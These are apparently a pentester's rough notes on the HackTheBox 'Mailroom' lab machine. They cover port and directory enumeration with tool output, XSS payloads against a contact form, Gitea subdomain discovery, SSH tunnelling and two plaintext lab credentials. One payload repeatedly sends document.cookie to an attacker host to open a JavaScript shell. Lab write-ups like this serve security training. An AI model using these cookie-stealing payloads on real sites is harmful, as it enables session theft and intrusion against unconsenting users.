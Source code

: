 └─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho

![](20230701233408.png)

has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

<img src="10.10.16.24:8000/test.jpg" /> <script src="http://10.10.16.24:8000/cookie.js"></script>

![](20230702070727.png)

getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?

![](20230702101704.png)

need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did

![](20230702102326.png)

hahaha. anywhoo.

dirsearch -u http://mailroom.htb -t 200

```
 gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u mailroom.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/02 20:23:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/02 20:23:57 Finished

```

lets add to /etc/hosts 

![](20230702202632.png)

got a gittea directory.

lets do adirectory enumeration on subdomain

we will get to know th eusers of gitea

in the repo htereis a metnion of another subdomain

staff-review-panel.mailroom.htb

https://hyperbeast-es.translate.goog/mailroom-htb/?_x_tr_sl=auto&_x_tr_tl=en&_x_tr_hl=en&_x_tr_pto=wapp

using fuff to enumerate the subdomain

```
ffuf -w /snap/seclists/25/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.mailroom.htb" -u http://mailroom.htb -fs 7746
```

```
dirsearch -u http://git.mailroom.htb -t 200 -x 500
```

```
        // Send an email to the user with the 2FA token
        $to = $user['email'];
        $subject = '2FA Token';
        $message = 'Click on this link to authenticate: http://staff-review-panel.mailroom.htb/auth.php?token=' . $token;

```

tristan 69trisRulez!

![](20230725075251.png)

by using 

`ssh -L 8080:127.0.0.1:80 tristan@10.10.11.209`

after this we can add entry in the localhost for mailroom panel

![](20230725075723.png)

Matthew
HueLover83#